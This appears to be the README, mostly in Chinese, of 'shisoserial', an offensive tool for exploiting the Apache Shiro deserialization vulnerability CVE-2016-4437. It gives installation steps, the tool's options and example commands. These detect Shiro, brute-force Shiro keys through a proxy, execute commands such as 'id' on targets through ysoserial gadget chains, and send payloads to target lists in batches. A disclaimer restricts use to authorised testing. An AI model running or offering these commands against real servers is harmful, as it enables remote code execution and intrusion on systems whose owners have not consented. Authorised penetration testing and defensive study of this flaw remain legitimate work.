




# shisoserial

[English Document](https://github.com/4nth0ny1130/shisoserial/blob/master/README-EN.md)

## 这是什么?

一个针对shiro反序列化漏洞(CVE-2016-4437)的快速利用工具

## 贡献者

[4nth0ny](https://github.com/4nth0ny1130) @星期五实验室

## 环境

*   python 3.x

*   JDK 1.8

## 安装

```
python3 -m pip install -r requirements.txt
```

for `AttributeError: module 'Crypto.Cipher.AES' has no attribute 'MODE_GCM'` or `No module named 'Crypto'`

```
python3 -m pip uninstall crypto pycryptodome
python3 -m pip install pycryptodome
```

## 用法

```
usage: shisoserial.py [-h] --mode MODE --url  [--type default:CBC] [--data] [--key] [--gadget] [--command default:whoami] [--proxies] [--ser] [--thread]

This is a simple tool to attack framework shiro with ysoserial

optional arguments:
  -h, --help            show this help message and exit
  --mode MODE, -m MODE  check/crack/yso/echo/encode
  --url , -u            Target URL address or the file containing the target URL
  --type default:CBC, -t default:CBC
                        Cipher Type, GCM or CBC
  --data , -d           Using this parameter will make HTTP request with POST method
  --key , -k            Specify a Shiro Key or will use dictionary brute force cracking
  --gadget , -g         Specific Ysoserial Gadget
  --command default:whoami, -c default:whoami
                        Specific Execute Command
  --proxies , -p        Specific Proxy
  --ser , -s            Specific serialize file name
  --thread , -T         Specific the number of threads
```

## 例子

### 检查目标是否使用shiro框架(使用默认CBC加密)

```
python3 shisoserial.py -m check -u http://127.0.0.1:8080
```


### 使用代理和CBC加密爆破目标shiro key

```
python3 shisoserial.py -m crack -u http://*.*.*.*:**** -t CBC -p http://*.*.*.*:****/
```



### 使用CommonsCollectionsK1利用链执行命令并获取命令执行结果

```
python3 shisoserial.py -m echo -u http://127.0.0.1:8080 -g CommonsCollectionsK1 -c id
```



### 使用Post请求批量验证指定的shiro key

```
python3 shisoserial.py -m crack -u target_urls.txt -k kPH+bIxk5D2deZiIxcaaaA== -d username=1
```



### 使用序列化数据文件构造payload并使用多线程批量发送

```
python3 shisoserial.py -m encode -u target_urls.txt -t cbc -s 1.ser -T 4
```



## 免责声明

本工具仅能在取得足够合法授权的企业安全建设中使用，在使用本工具过程中，您应确保自己所有行为符合当地的法律法规。 如您在使用本工具的过程中存在任何非法行为，您将自行承担所有后果，本工具所有开发者和所有贡献者不承担任何法律及连带责任。 除非您已充分阅读、完全理解并接受本协议所有条款，否则，请您不要安装并使用本工具。 您的使用行为或者您以其他任何明示或者默示方式表示接受本协议的，即视为您已阅读并同意本协议的约束。
